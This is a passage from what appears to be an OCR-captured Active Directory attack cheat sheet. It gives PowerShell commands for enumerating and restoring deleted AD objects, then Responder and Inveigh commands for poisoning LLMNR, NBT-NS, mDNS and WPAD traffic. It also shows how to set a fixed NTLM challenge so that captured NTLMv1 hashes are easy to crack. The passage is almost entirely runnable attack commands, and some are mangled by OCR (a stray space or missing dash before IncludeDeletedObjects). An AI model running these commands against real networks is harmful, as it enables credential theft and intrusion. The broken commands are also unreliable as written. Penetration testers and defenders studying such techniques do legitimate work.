 ### AD Recycle Bin

Members of this group can recover deleted objects from the Active Directory, just like in a recycle bin for files, when the feature is enabled. These objects can sometimes have interesting properties.

#### Enumerate deleted objects

To find all the deleted objects and their properties:

```powershell
Get-ADObject -filter 'isdeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
```

To focus on one object:

```powershell
Get-ADObject -filter { SAMAccountName -eq "user1" } -includeDeletedObjects -property *
```

To find the last deleted object:

```powershell
Get-ADObject -ldapFilter:"(msDS-LastKnownRDN=*)" - IncludeDeletedObjects
```

#### Restore an object

```powershell
Get-ADObject -Filter {displayName -eq "user1"} IncludeDeletedObjects | Restore-ADObject
```

## Authentication capture, coerce and relay

### Capture, coerce and leak

Different ways to obtain and catch NTLM authentications and retrieve a NTLM response.

#### Responder / Inveigh

Change the authentication challenge to `1122334455667788` in the Responder conf file in order to obtain an easily crackable hash if **NTLMv1** is used.

```bash
sed -i 's/ Random/ 1122334455667788/g' Responder/Responder.conf
```

Catch all the possible hashes on the network (coming via LLMNR, NBT-NS, DNS spoofing, etc):

```bash
# Responder with WPAD injection, Proxy-Auth, DHCP, DHCP-DNS and verbose
responder -I interface_to_use -wPdDv

# Inveigh with *
Invoke-Inveigh -Challenge 1122334455667788 -ConsoleOutput Y -LLMNR Y -NBNS Y -mDNS Y -HTTPS Y -Proxy Y
```
